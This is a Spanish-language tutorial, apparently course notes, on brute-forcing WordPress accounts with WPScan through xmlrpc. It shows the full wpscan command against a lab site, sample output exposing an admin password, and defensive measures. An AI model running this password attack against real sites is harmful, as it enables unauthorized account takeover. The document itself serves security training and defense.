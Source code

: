 ### **Ataques a Usuarios de WordPress**

#### **Ataque de Fuerza Bruta a Usuarios de WordPress**

WPScan permite realizar ataques de fuerza bruta a cuentas de WordPress mediante dos métodos:

1. **`wp-login`** → Fuerza bruta contra la página de inicio de sesión estándar (`/wp-login.php`).
2. **`xmlrpc`** → Utiliza la API de WordPress (`/xmlrpc.php`) para realizar intentos de inicio de sesión de manera más eficiente.

**El método `xmlrpc` es más rápido y eficiente porque permite múltiples intentos en una sola solicitud.**

---

## **Ejemplo de Ataque de Fuerza Bruta con WPScan**

El escaneo anterior reveló que hay **tres usuarios registrados**:

- **admin**
- **roger**
- **david**

Para realizar un ataque de fuerza bruta usando `xmlrpc`:

```bash
wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
```

### **Explicación de los parámetros:**

- `--password-attack xmlrpc` → Usa XML-RPC para el ataque de fuerza bruta.
- `-t 20` → Usa 20 hilos en paralelo para acelerar el ataque.
- `-U admin, david` → Lista de usuarios objetivo.
- `-P passwords.txt` → Lista de contraseñas a probar.
- `--url http://blog.inlanefreight.com` → URL del sitio objetivo.

---

### **Salida del Ataque**

```plaintext
[+] URL: http://blog.inlanefreight.com/                                                  
[+] Started: Thu Apr  9 13:37:36 2020                                                                                                                                               
[+] Performing password attack on Xmlrpc against 3 user/s

[SUCCESS] - admin / sunshine1
Trying david / Spring2016 Time: 00:00:01 <============> (474 / 474) 100.00% Time: 00:00:01

[i] Valid Combinations Found:
 | Username: admin, Password: sunshine1
```

Esto indica que la cuenta **admin** usa la contraseña **sunshine1**, lo que permitiría acceso total al backend de WordPress.

---

## **Recomendaciones para Protegerse Contra Ataques de Fuerza Bruta**

1. **Deshabilitar `xmlrpc.php` si no es necesario:**
    
    - Agregar esta regla en `.htaccess`:
        
        ```plaintext
        <Files xmlrpc.php>
        Order Allow,Deny
        Deny from all
        </Files>
        ```
        
2. **Implementar Autenticación de Dos Factores (2FA):**
    
    - Usar plugins como **Google Authenticator** o **Wordfence**.
3. **Usar Contraseñas Fuertes y Únicas:**
    
    - Evitar contraseñas predecibles como `password123`, `admin123`, etc.
4. **Configurar un Límite de Intentos de Inicio de Sesión:**
    
    - Usar **Limit Login Attempts Reloaded** para bloquear IPs tras varios intentos fallidos.
5. **Activar CAPTCHA en el Inicio de Sesión:**
    
    - Plugins como **reCAPTCHA for WordPress** pueden evitar bots automatizados.
6. **Monitorear Intentos de Acceso:**
    
    - Revisar los registros (`/var/log/auth.log` en Linux o registros en WordPress).
7. **Bloquear Direcciones IP Sospechosas:**
    
    - Agregar IPs sospechosas a un firewall:
        
        ```bash
        sudo iptables -A INPUT -s 192.168.1.100 -j DROP
        ```
        

---

## **Conclusión**

El ataque de fuerza bruta con **WPScan** es altamente efectivo si el sitio no tiene medidas de seguridad. Para prevenirlo: ✔️ **Deshabilitar XML-RPC si no se usa.**  
✔️ **Implementar 2FA y contraseñas seguras.**  
✔️ **Configurar límites de intentos de inicio de sesión.**  
✔️ **Monitorizar logs y bloquear IPs sospechosas.**